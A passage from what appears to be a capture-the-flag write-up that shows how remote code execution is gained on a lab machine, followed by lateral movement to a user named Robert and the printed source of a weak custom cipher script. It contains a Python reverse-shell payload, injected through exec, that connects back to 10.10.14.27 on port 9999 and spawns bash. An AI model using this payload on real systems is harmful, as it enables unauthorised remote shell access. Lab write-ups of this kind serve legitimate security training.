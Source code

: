 This script will inject a reverse-shell to our IP, on port 9999, as the content of the variable passed to the exec statement will compose this payload:

```
exec (output = 'Document: tmp'
import socket, subprocess, os; s = socket.socket (socket.AF_INET, socket.SOCK_STREAM); s.connect (("10.10.14.27", 9999)); os.dup2 (s.fileno (), 0); os.dup2 (s.fileno (), 1); os.dup2 (s.fileno (), 2); p = subprocess.call ([ "/ bin / bash", "- i"])
a = '')
```

![2020-02-27_15-08-41]({{page.screenshots}}/2020-02-27_15-08-41.png)


<br>
## Lateral movement to Robert

Once we got the shell as _www-data_, let's do some post-exploitation recon to find out that the user of the machine is called **Robert**. Visiting his home directory we find out that we can read the contents of his files.

![2020-02-27_18-31-47]({{page.screenshots}}/2020-02-27_18-31-47.png)

Inside the home we find a series of scripts, including a custom SSH server (**BetterSSH**), a crypt-decrypt tool (**SuperSecureCrypt.py**) and a set of files to perform some tests.

The code for **SuperSecureCrypt.py** is the following:

```python
import sys
import argparse

def encrypt(text, key):
    keylen = len(key)
    keyPos = 0
    encrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
        newChr = chr((newChr + ord(keyChr)) % 255)
        encrypted += newChr
        keyPos += 1
        keyPos = keyPos % keylen
    return encrypted

def decrypt(text, key):
    keylen = len(key)
    keyPos = 0
    decrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
        newChr = chr((newChr - ord(keyChr)) % 255)
        decrypted += newChr
        keyPos += 1
        keyPos = keyPos % keylen
    return decrypted

parser = argparse.ArgumentParser(description='Encrypt with 0bscura\'s encryption algorithm')

parser.add_argument('-i',
                    metavar='InFile',
                    type=str,
                    help='The file to read',
                    required=False)

```